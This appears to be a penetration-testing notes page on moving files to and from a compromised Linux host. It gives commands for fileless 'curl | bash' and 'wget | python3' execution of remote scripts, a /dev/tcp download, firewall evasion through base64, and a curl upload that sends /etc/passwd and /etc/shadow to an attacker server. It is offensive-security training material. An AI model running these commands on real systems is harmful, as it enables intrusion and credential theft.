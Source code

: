 ```yaml
---
title: Transferring files techniques - Linux
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - linux
  - exploitation
  - file transfer technique
  - backdoors
---
```


# Transferring files techniques  - Linux

## Replicating client-server 

### 1. Setting up a server in the attacking machine 

[See different techniques](servers.md)

### 2. Download files from victim's machine

#### wget

```shell-session
wget http://<SERVERIP>:<SERVERPORT>/<file>
```

#### curl

```shell-session
curl http://http://<SERVERIP>:<SERVERPORT>/<file> -o <OutputNameForFile>
```


### Fileless downloads using Linux

Because of the way Linux works and how pipes operate, most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

#### Fileless Download with cURL

```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```


#### Fileless Download with wget

```shell-session
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## Bash downloads

On the server side (attacking machine), setup a server by using one of the methodologies applied above.

On the client side (victim's machine):

```shell-session
# Connecting to the Target Webserver (attacking machine serving the file)
exec 3<>/dev/tcp/$ip/80

# Requesting the file to the server 
echo -e "GET /file.sh HTTP/1.1\n\n">&3

# Printing the Response
cat <&3
```


## SSH downloads and uploads: SCP

SSH implementation comes with an SCP utility for remote file transfer that, by default, uses the SSH protocol. 

Two requirements:

 - we have ssh user credentials on the remote host
 - ssh is open on port 22

On the server's side (attacker's machine):

```shell-session
# Enable the service
sudo systemctl enable ssh

# Start the server
sudo systemctl start ssh

# Check if port is listening
netstat -lnpt
```

From the attacker machine too:

```
# Download file foobar.txt saved in the victim's machin. Command is run from attacker machine connecting to the remote host (victim's machine)
scp username@$IPvictim:foobar.txt /some/local/directory

# Upload file foo.txt saved in attacker machine into the victim's. Command is run from attacker machine connecting to the remote host (victim's machine)
scp foo.txt username@$IPvictim:/some/remote/directory
```



## Base64

To avoid firewall protections we can:

**1.** Base64 encode the file:

```shell-session
base64 file.php -w 0

# Alternative
cat file |base64 -w 0;echo

```

**2.** Copy the base64 string, go to the remote host and decode it and pipe to a file:

```shell-session
echo -n "Looooooong-string-encoded-in-base64" | base64 -d > file.php
# -n: do not output the trailing newline
```

## Web upload

We can use [uploadserver](uploadserver.md).


```bash
# Install
python3 -m pip install --user uploadserver

# As we will use https, we will create a self-signed certificate. This file should be hosted in a different location from the web server folder
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Start the web server
python3 -m uploadserver 443 --server-certificate /location/different/folder/server.pem

# Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.
curl -X POST https://$attackerIP/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
# We used the option --insecure because we used a self-signed certificate that we trust.
```


## Backdoors

See [reverse shells](reverse-shells.md), [bind shells](bind-shells.md), and [web shells](web-shells.md).

## Transfer Files with Rsync over SSH

[More about RSYNC protocol](873-rsync.md).

Before you can start transferring files and directories with rsync over SSH, make sure you can [use SSH to connect to a remote server](https://phoenixnap.com/kb/ssh-to-connect-to-remote-server-linux-or-windows). Once verified, you can begin backing up your data. Ensure your destination system has sufficient storage space.

The syntax for copying files to a remote server over SSH with the **`rsync`** command is:

```
rsync OPTION SourceDirectory_or_filePath user@serverIP_or_name:Target

# Example
rsync ~/Desktop/Dir1/"source pdf sample.pdf" test@192.168.56.100:~/Desktop/test
```
